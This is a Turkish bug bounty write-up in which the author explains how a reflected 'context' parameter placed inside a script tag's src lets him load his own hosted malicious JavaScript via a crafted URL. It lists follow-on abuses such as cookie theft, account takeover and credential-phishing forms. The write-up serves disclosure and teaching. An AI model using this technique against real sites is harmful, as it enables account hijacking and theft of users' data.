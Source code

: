 ```yaml
---
title: 'TR \| Javascript File Inclusion via a Simple Link Injection'
date: 2018-06-12
permalink: /posts/javascript-file-inclusion-via-simple-link-injection-xss/
tags:
  - xss
  - cross site scripting
  - javascript
  - file inclusion
  - link injection
  - hack
  - bugbounty
  - account takeover
  - write-up
  - poc
excerpt: 'Javascript File Inclusion (XSS) via a Simple Link Injection'
---
```


Merhaba arkadaşlar, ben Samet ŞAHİN.

HackerOne (https://hackerone.com/) üzerindeki bir gizli (private) programa **Recognize** yaparken HTTP servisini kullanan bir IP adresi buldum. Bulduğum IP adresine girince direkt olarak bir index sayfasına yönlendiriyordu. Bu index sayfasının kaynak kodlarını (CTRL-U) okurken GET yöntemiyle değer alan bir `<form>` etiketi gördüm ve içerdiği `<input>` etiketlerinden "context" parametresinden değer aldığını fark ettim. 
<img src="/images/LinkInjectionBlogPost.PNG">

Sıradan bir XSS araştırmasında tüm girdilere (input) XSS saldırı kodları (payload) girmeyi elbette deneyebilirsiniz. Evet XSS böyle de bulunur AMA kaynak kodunu okumayıp, fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamadan **hacking** denediğiniz anda otomatize araçlardan pek de bir farkınız kalmayacaktır. Fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamak da Bug Bounty alanında iyi çalışmalar yapan kişilerden aldığım önerilerden biridir. 

Yani buradan bir #bugbountytip çıkarak olursak : "Sitenin ne işe yaradığını sorgula ve nasıl bozarım diye düşün."

Ufak bir trickten sonra açığımıza geri dönelim. Kaynak kodunu okumuş ve "context" isimli bir girdi etiketinin varlığını anlamıştık. Şimdi eğer daha önce çok eski sitelere **Recognize** veya **Hacking** uyguladıysanız sitenin gerçekten çalışıp çalışmadığını kontrol etmelisiniz. Hadi gelin kontrol edelim. Link'in sonunda `?context=sametsahin` yazıyorum ve kaynak koduna nerelere ve nasıl yansıdığını inceliyorum.
> URL : https://127.0.0.1/blablabla/index.html?context=sametsahin
<img src="/images/LinkInjectionBlogPost2.png">

Yukarıdaki URL adresini ziyaret ediyoruz ve CTRL-U kombinasyonuyla kaynak koduna giriyoruz. Ardından da CTRL-F ile "sametsahin" değerini aratıyoruz. Gördüğümüz kadarıyla "sametsahin" değeri tam 63 farklı yerde ve farklı şekillerde yansımış. Birazdan bu farklı yansıma şekillerinden bir tanesini kullanarak "Medium 6.3" değerinde bir Cross Site Scripting (XSS) açığı elde edeceğiz. 

Yukarıdaki resimde HTML ve JavaScript için hayati önem arz eden `<script>` etiketine "sametsahin" değerinin basıldığını ve sonuna da /javascript.js dosyasının otomatik olarak eklendiğini görüyoruz. Bu ne anlama geliyor ? Nasıl bozarım ?

> Bu, websitesinin "context" parametresinden aldığı değeri direkt olarak `<script>` etiketinin başına eklediğini ve değerin hemen sonuna da javascript.js dosyasını alarak çalıştığını anlıyoruz.  


> Eğer benden aldığı değeri direkt olarak `<script>` etiketinin içine yerleştiriyor ise ben bu değeri bir kontrolümdeki site adresiyle değiştirip o sitedeki /javascript.js dosyasının içeriğini zararlı kodlar (payload) ile doldurarak XSS açığına erişebilirim.

Bu durumda XSS açığına sebep olan URL adresimiz şu şekilde gözükecektir.
> URL : https://127.0.0.1/blablabla/index.html?context=https://sametsahin.net/zararlikod.js?
<img src="/images/LinkInjectionBlogPost3.png">

Ve URL adresine kullanıcıya tıklattırdığımda kullanıcı tarayıcısında zararlı kodumuz (XSS Payloadımız) çalışacaktır.
<img src="/images/LinkInjectionBlogPost4.png">


**Peki neler yaptık ?**  
1 -> Recognize ile bir HTTP uygulaması ve bir klasöre eriştik.  
2 -> Eriştiğimiz klasördeki index dosyasının kaynak kodunu okuduk.  
3 -> Kaynak kodunu okurken "context" isimli bir parametre olduğunug gördük.  
4 -> "Context" parametresinin nerelere ve nasıl yansıdığını tespit ettik.  
5 -> Kendimize bazı sorular sorduk.  
6 -> Kontrolümüzdeki bir websitesiyle değiştirdik ve "context" parametresine yazdık.  
7 -> Basit bir Link Injection'dan yola çıkarak en iyisinden bir Cross Site Scripting açığı elde ettik.  


**Peki bu Cross Site Scripting ile neler yapılabilirdi ?**  
1 -> Kullanıcı Cookie'leri çalınıp kullanıcı hesabına erişilebilirdik.  
2 -> Kullanıcıyı zararlı websitelerine yönlendirebilirdik.  
3- > CSRF Korumalarını bypass edebilir veya CSRF Tokenlerini çalabilirdik.  
4 -> Websitesinde sahte formlar oluşturup Email, Telefon, Adres, Kimlik ve Parola gibi hassas verileri çalabilirdik.  
....  



Normal bir XSS açığında saldırı senaryosu geniştir ama bu tür JavaScript dosyası dahil edilebilen tür XSS açıklarında zararlı kodunuzu dilediğiniz kadar uzun yazabildiğiniz için oldukça tehlikelidir. 

Ve tüm bu işlemlerin ardından ortaya çıkardığım orijinal bir #BugBountyTip : 
> **Even a Simple Link Injection can be very harmful. Depends on where it is.**


Samet ŞAHİN
